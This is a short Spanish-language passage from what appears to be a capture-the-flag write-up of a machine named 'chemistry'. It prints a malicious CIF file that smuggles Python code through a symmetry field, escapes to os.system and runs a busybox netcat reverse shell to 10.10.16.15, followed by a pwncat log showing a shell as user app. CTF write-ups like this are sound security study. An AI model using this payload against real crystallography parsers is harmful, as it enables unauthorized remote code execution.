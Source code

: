 Después de probar varias reverse shell's, la siguiente funcionó.
![Write-up Image](images/Screenshot_11.png)

Este es exploit final.
```python
$ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.16.15 443 -e /bin/bash");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Y ganamos acceso como el usuario `app`
```console
[16:06:27] received connection from 10.129.201.7:52194                                                                        bind.py:84
[16:06:29] 10.129.201.7:52194: registered new host w/ db                                                                  manager.py:957
(local) pwncat$                                                                                                                         
(remote) app@chemistry:/home/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```
